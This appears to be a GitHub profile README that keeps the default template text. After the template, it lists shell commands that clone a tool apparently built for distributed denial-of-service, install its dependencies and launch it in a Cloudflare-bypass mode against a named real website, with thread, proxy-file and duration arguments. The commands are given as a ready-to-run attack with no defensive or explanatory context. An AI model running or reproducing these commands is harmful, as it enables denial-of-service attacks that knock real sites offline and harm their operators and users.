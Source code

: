 - 👋 Hi, I’m @TheFleyYT
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
TheFleyYT/TheFleyYT is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
git clone https://github.com/MHProDev/MHDDoS.git
ls
cd MHDDoS
pip3 install icmplib requests pysocks cfscrape scapy
python3 start.py
python3 start.py CFB https://politblocks.ru
1 1000 http.txt 1000 1000
